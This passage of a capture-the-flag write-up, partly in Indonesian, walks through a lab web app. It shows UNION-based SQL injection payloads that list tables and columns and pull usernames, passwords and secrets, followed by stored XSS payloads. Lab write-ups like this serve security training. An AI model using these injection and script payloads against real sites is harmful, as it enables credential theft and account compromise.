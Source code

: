 **Step 4: Enumerate tables**
```sql
-- List all tables in current database
%' UNION SELECT table_name,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema=database()#

-- Expected tables:
-- users, employees, secrets, flag_submissions, ctf_settings
```

**Step 5: Enumerate columns**
```sql
-- Get columns from users table
%' UNION SELECT column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users'#

-- Expected columns: id, username, password, role, created_at

-- Get columns from employees table
%' UNION SELECT column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='employees'#

-- Expected columns: id, name, department, salary, secret_note, created_at
```

**Step 6: Extract sensitive data**
```sql
-- Extract user credentials
%' UNION SELECT username,password,role,NULL FROM users#

-- Extract employee data (contains XSS flag)
%' UNION SELECT name,department,secret_note,NULL FROM employees#

-- Extract secrets (if admin access)
%' UNION SELECT title,content,access_level,NULL FROM secrets#
```

**Flags Found:**
- `FLAG{sql_injection_master_b4d1c0d3}` - Login sebagai admin

### Phase 3: Cross-Site Scripting (XSS) 🚨

#### 3.1 Stored XSS Discovery
```sql
-- Search for XSS payload in employee notes
Search: Alice

-- XSS payload akan muncul di hasil:
<script>alert("FLAG{xss_found_h3r3}")</script>
```

#### 3.2 XSS Exploitation
```javascript
// Payload yang tersimpan di database
<script>alert("FLAG{xss_found_h3r3}")</script>

// Payload untuk testing
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```
